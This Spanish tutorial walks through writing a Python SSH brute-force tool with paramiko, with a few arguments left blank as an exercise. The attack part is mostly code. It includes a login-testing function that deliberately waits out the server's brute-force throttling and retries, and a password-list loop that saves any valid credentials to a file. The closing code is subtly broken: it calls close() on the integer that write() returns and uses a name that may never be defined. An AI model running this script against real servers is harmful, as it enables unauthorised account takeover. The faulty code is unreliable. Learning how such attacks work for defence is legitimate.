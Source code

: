## Introducción
Un ataque de fuerza bruta es aquel que se basa en repetidos intentos de login utilizando múltiples combinanciones para comprometer un sistema que requeria autenticación. Hay muchísimas y muy buenas herramientas open source para realizar fuerza bruta al servicio SSH en Linux, como pueden ser Hydra, Metasploit, Patator o Medusa. 

Aún así, como nos encanta aprender, vamos a crear nuestro propio script para realizar un ataque de fuerza bruta a un servidor SSH en Python.

En primer lugar, el módulo más importante que vamos a utilizar es [paramiko](https://docs.paramiko.org/en/stable/), que nos proporciona una interfaz sencilla de cliente SSH.

Para instalarlo, bien de forma global en nuestra máquina, junto :

```console
$ pip3 install paramiko colorama
```

Bien únicamente en nuestro entorno virtual:

```console
(entorno-virtual)$ pipenv install paramiko colorama
```

En este caso instalamos también el módulo [colorama](https://pypi.org/project/colorama/) que únicamente nos permitirá imprimir en colores los textos por pantalla.

## Importando módulos necesarios

Para nuestros propósitos vamos a necesitar los siguientes módulos:

```py
import paramiko
import socket
import time
from colorama import init, Fore
```
+ El módulo **paramiko**, entre otras otras cosas, nos permite realizar conexiones ssh a un servidor, mostrando en tiempo real el resultado de los comandos que se ejecuten en el mismo. 
+ El módulo **socket** nos permite crear conexiones de red de bajo nivel
+ **time**, como su nombre indica, proporciona varias funciones relacionadas con el tiempo 

Definimos algunos de los colores que vamos a utilizar:

```python
init() #(1)

GREEN = Fore.GREEN
RED   = Fore.RED
RESET = Fore.RESET
BLUE  = Fore.BLUE
```

1. Iniciamos `colorama`

Ahora construiremos una función que, dado nombre de host, un usuario y una contraseña, nos diga si la combinación es correcta:

```python
def is_ssh_open(_______, _______, _______):
    # initialize SSH client
    client = paramiko.SSHClient()
    # add to know hosts
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(hostname=_______, username=_______, password=_______, timeout=3)
    except socket.timeout:
        # this is when host is unreachable
        print(f"{RED}[!] Host: {hostname} is unreachable, timed out.{RESET}")
        return False
    except paramiko.AuthenticationException:
        print(f"[!] Invalid credentials for {username}:{password}")
        return False
    except paramiko.SSHException:
        print(f"{BLUE}[*] Quota exceeded, retrying with delay...{RESET}")
        # sleep for a minute
        time.sleep(60)
        return is_ssh_open(hostname, username, password)
    else:
        # connection was established successfully
        print(f"{GREEN}[+] Found combo:\n\tHOSTNAME: {hostname}\n\tUSERNAME: {username}\n\tPASSWORD: {password}{RESET}")
        return True
```

Mucha información en el bloque de arriba, que pasamos a desgranar. En primer lugar inicializamos nuestro cliente SSH usando `paramiko.SSHClient()` que no es más que una representación a alto nivel de una sesión con un servidor SSH.

En segundo lugar, estalecemos la política a usar cuando conectamos con servidores que no tengan una clave de host conocida. Usamos `paramiko.AutoAddPolicy()`, que es una política para añadir automáticamente el nombre de host y la nueva clave de host a nuestras claves locales. En román paladín, es una forma de emular esta típica acción:

![](img/unknown-SSH.webp)

Finalmente, intentamos conectarnos al servidor SSH y autenticarnos en él usando el métodos `client.connect()` con un timeout de 3 segundos. Este método puede lanzar varias excepciones:

1. `socket.timeout` cuando el host es inalcanzable durante 3 segundos
2. `paramiko.AuthenticationException` cuando la combinación usuario/contraseña no es correcta
3. `paramiko.SSHException` cuando se han producido muchos intentos de login en un corto periodo de tiempo. Dicho de otro modo, el servidor detecta que es un intento de fuerza bruta, nos damos por enterados y esperaremos un minuto para volver a llamar a la función de nuevo con los mismos parámetros.

Si no se lanza ninguna de las excpeciones anteriores, entonces significa que se ha estalecido la conexión con éxito y las credenciales son correctas, por lo que devolveremos `True` en este caso.

Puesto que estamos hablando de un script en línea de comandos, debemos *parsear* los argumentos que se le pasan al mismo:

```python
if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser(description="SSH Bruteforce Python script.")
    parser.add_argument("host", help="Hostname or IP Address of SSH Server to bruteforce.")
    parser.add_argument("-P", "--passlist", help="File that contain password list in each line.")
    parser.add_argument("-u", "--user", help="Host username.")

    # parseamos los argumentos que se nos han pasado
    args = parser.parse_args()
    host = args._______
    passlist = args._______
    user = args._______
    # leer el fichero
    passlist = open(_______).read().splitlines()
    # fuerza bruta
    for password in passlist:
        if is_ssh_open(host, user, password):
            global credenciales
            # Si la combinación es válida, la guardamos en un archivo
            credenciales = open("credentials.txt", "w").write(f"{user}@{host}:{password}")
            break
    credenciales.close()
```
Básicamente *parseamos* los argumentos para obtener el nombre de host, el nombre de usuario y el fichero con el listado de contraseñas sobre las que iteraremos. 

## Referencias
[How to Change Text Color in Python](https://www.thepythoncode.com/article/change-text-color-in-python)

[socket — Comunicación en red](https://rico-schmidt.name/pymotw-3/socket/index.html)

[HOW TO - Programación con sockets](https://docs.python.org/es/3/howto/sockets.html)

[How to Brute-Force SSH Servers in Python](https://www.thepythoncode.com/article/brute-force-ssh-servers-using-paramiko-in-python)
